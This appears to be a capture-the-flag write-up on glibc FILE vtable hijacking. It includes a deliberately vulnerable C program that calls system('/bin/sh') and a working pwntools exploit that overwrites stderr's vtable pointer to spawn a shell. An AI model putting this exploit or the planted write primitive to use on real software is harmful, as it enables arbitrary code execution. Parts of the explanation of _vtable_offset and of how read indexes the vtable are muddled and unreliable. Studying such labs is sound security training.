


This is a problem based on_IO_file Vtable.


# Introduction

The file stream feature (FILE) in Linux. We can see that some common IO operation functions in Linux need to be processed through the FILE structure. In particular, there is a vtable in the *_IO_FILE_plus* structure, and some functions will fetch the pointers in the vtable for calling.

Therefore, the central idea of the fake vtable hijacking process is to implement the vtable of _IO_FILE_plus by pointing the vtable to the memory we control and placing the function pointer in it.

Therefore, vtable hijacking is divided into two types. One is to directly rewrite the function pointer in the vtable, which can be realized by writing at any address. The other is to overwrite the vtable pointer to the memory we control, and then arrange the function pointer in it.

*_IO_FILE* The structure is as follows:

```c
struct _IO_FILE
{
  int _flags;		/* High-order word is _IO_MAGIC; rest is flags. */
  /* The following pointers correspond to the C++ streambuf protocol. */
  char *_IO_read_ptr;	/* Current read pointer */
  char *_IO_read_end;	/* End of get area. */
  char *_IO_read_base;	/* Start of putback+get area. */
  char *_IO_write_base;	/* Start of put area. */
  char *_IO_write_ptr;	/* Current put pointer. */
  char *_IO_write_end;	/* End of put area. */
  char *_IO_buf_base;	/* Start of reserve area. */
  char *_IO_buf_end;	/* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */
  struct _IO_marker *_markers;
  struct _IO_FILE *_chain;
  int _fileno;
  int _flags2;
  __off_t _old_offset; /* This used to be _offset but it's too small.  */
  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];
  _IO_lock_t *_lock;
#ifdef _IO_USE_OLD_IO_FILE
};
```


# Vulnerable Source Code 

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

char name[8];
void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

void get_shell() {
    system("/bin/sh");
}
int main(int argc, char *argv[]) {
    int idx = 0;
    int sel;

    initialize();

    printf("what is your name: ");
    read(0, name, 8);
    while(1) {
        printf("1. print\n");
        printf("2. error\n");
        printf("3. read\n");
        printf("4. chance\n");
        printf("> ");

        scanf("%d", &sel);
        switch(sel) {
            case 1:
                printf("GOOD\n");
                break;
            case 2:
                fprintf(stderr, "ERROR\n");
                break;
            case 3:
                fgetc(stdin);
                break;
            case 4:
                printf("change: ");
                read(0, stderr + 1, 8);
                break;
            default:
                break;
            }
    }
    return 0;
}
```

# Analysis 

The key vulnerability lies in the read(0, stderr + 1, 8) call in case 4 of the switch statement. This allows the attacker to overwrite 8 bytes of memory starting at stderr + 1, which is the address of the _IO_file_jumps vtable.



from the gdb we notice that The value that is added to stderr by 0xd8 is used as a parameter of the read function 



Okey so *stderr+1* received from read is the address of the *vtable*. (To be exact, it is the address of *_IO_file_jumps*.) Then, the read function will add the _vtable_offset value in its structure to _IO_file_jumps and refer to the necessary function and we can execute the desired function by inserting a fake vtable address through :

```c 
read(0, stderr + 1, 8); 
```


We can change the address of the vtable in the read function. In the case of the frpintf function (fwrite), the *_IO_new_file_xsputn* function is called, and the *_vtable_offset* set at that time is 0x38 when the *fprintf()* function is called, it calls the address of __xsputn at offset 0x38 of _IO_file_jumps. Therefore, if we input the address of the *get_shell()* function in the name variable and the address of the name variable -0x38 in the read function in case 4, we will be able to exploit it.

```python
from pwn import *
context.update(arch='amd64', os='linux')
context.log_level = 'debug'
p = process("./iofile_vtable")
elf = ELF("./iofile_vtable")
libc = ELF("./libc-2.27.so")

get_shell = 0x40094a
fake__xsputn = 0x6010d0-0x38

p.sendlineafter(b"what is your name: ", p64(get_shell))
pause()

p.sendlineafter(b"> ", b"4")
p.sendlineafter(b"change: ", p64(fake__xsputn))
p.sendlineafter(b"> ", b"2")

p.interactive()
```

To exploit this vulnerability, we need to understand the structure of the _IO_FILE object and the _IO_file_jumps vtable.
The _IO_FILE structure contains a _vtable_offset field, which is used to index into the _IO_file_jumps vtable. When functions like *fprintf()* or *fwrite()* are called on the _IO_FILE object, they use this offset to call the corresponding function pointer in the vtable.
By overwriting the _IO_file_jumps vtable with our own values, we can hijack the control flow and execute arbitrary code. Specifically, we can overwrite the __xsputn function pointer (at offset 0x38 in the vtable) with the address of the *get_shell()* function, and overwrite the address of the name variable (minus 0x38) as the new vtable pointer.

